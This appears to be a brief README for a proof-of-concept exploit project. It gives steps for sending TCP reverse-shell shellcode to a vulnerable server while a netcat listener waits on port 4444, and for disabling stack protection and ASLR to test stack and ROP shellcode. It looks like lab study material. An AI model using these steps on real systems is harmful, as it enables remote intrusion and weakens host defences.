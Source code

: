 ### poc



- vulserver
    + test on Debian Jessie amd64
    + run vulserver
    + run nc -vv -l -p  4444  in localhost                       
    + run client.py shellcode (now the tcp reverse shellcode link to 127.0.0.1)
 
- vullocal
    + the shellcode now can run in stack 
        - -fno-stack-protector -z execstack
        - echo 0 > /proc/sys/kernel/randomize_va_space
    + the rop shellcode is testing
        - -fno-stack-protector
        - echo 0 > /proc/sys/kernel/randomize_va_space
